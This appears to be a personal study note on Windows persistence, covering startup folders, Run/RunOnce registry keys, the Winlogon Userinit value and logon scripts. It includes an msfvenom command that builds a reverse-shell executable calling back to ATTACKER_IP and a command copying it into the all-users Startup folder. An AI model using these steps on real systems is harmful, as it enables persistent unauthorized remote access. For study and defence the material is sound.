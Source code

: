 #windows #cybersecurity 

### Startup folder
Each user has a folder under
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where we can put executables to run at startup

If we want that every user runs the payload at startup we have to use the folder
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

Let's generate a reverse shell payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

Copy the file in the folder

```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Then sign out and login

### Run / RunOnce
We can use the following registry entry to specify application to run at logon
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

HKCU = current user
HKLM = everyone

![[Pasted image 20240722092018.png]]


### Winlogon
Windows component that loads the user profile after authentication.

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.


![[Pasted image 20240722092253.png]]

We can modify the userinit entry with our reverse shell program.


### Logon Scripts
The `userninit.exe` load the user profile and checks for a variable called `UserInitMprLoginScript`

![[Pasted image 20240722093125.png]]

We can modify it to run a reverse shell on logon